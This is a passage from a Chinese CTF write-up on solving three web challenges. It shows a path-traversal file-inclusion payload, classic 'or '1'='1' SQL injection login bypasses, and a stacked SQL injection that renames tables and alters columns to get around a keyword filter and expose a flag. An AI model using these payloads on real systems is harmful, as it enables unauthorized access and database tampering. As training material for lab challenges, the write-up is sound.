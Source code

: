 ```php
    }  
?>
```

`?file=source.php?/../../../../ffffllllaaaagggg`

或

`?file=hint.php?/../../../../ffffllllaaaagggg`

## 0x2.[极客大挑战 2019]EasySQL

直接

`payload: username=admin' or '1'='1&password=aaa' or '1'='1`

`username=admin&password=aa' or '1'='1`



## 0x3.[强网杯 2019]随便注

用union select 时：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

### 1）.堆叠注入：

show database;

show tables;

查看表结构：

```
desc `1919810931114514`--+
注意要用`引起来
或：show colunms from `1919810931114514`
```

可以知道，有两个表，words，1919810931114514(这里面有flag)。

大致查询语句应该为：select id,data from words where id=;

那么可以将words表改名为aaa，将1919810931114514改为words，再将id改为flag。（偷天换日的感觉）

>  0';rename table words to words1;
>
>  rename table `1919810931114514` to words;
>
>  alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
>
>  desc  words;#


